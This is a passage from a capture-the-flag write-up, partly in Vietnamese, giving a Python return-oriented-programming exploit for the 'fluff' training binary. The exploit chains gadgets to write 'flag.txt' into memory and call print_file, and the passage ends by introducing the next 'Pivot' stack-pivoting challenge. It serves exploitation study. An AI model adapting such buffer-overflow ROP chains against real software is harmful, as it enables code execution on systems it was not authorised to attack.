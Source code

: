 Exploit code

```text-x-python
from struct import pack
import sys

base = 0x400000
length = 0x4000 #length bits, bit from  15:8 is 0x40 -> 64 bit, 8 byte
xlatb = 0x0000000000400628 # xlatb; ret;
bextr = 0x000000000040062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
stosb = 0x0000000000400639 # stosb byte ptr [rdi], al; ret;
pop_rdi = 0x00000000004006a3 # pop rdi; ret;
data_section_addrs = 0x00601028
print_file_addrs = 0x00400510 # 4   0x00400510 GLOBAL FUNC       print_file
ret = 0x0000000000400295 # ret;
current_rax = 0xb

def p(x):
    return pack("<Q", x)

def find_index(filename='flag.txt'):
    indexes = []
    with open('fluff', 'rb') as f:
        buff = f.read()
        for c in filename:
            indexes.append(buff.index(bytes(c,'ascii')))
    return indexes

filename = 'flag.txt'
filename_index = find_index(filename=filename) # index of char in binary to create string 'flag.txt'

payload = b''
payload += b'A'*40
payload += p(pop_rdi)
payload += p(data_section_addrs)
for i, index in enumerate(filename_index):
    payload += p(bextr)
    payload += p(length)
    payload += p(base + index - 0x3ef2 - current_rax)
    payload += p(xlatb)
    payload += p(stosb)
    current_rax = ord(filename[i])
payload += p(pop_rdi)
payload += p(data_section_addrs)
payload += p(ret)
payload += p(print_file_addrs)

sys.stdout.buffer.write(payload)
```
## Pivot
Challenge 7 ta sẽ bị giới hạn số lượng bytes có thể overflow do đó ta cần chuyển hướng rsp - stack pointer đến vị trí khác để có thể thực thi

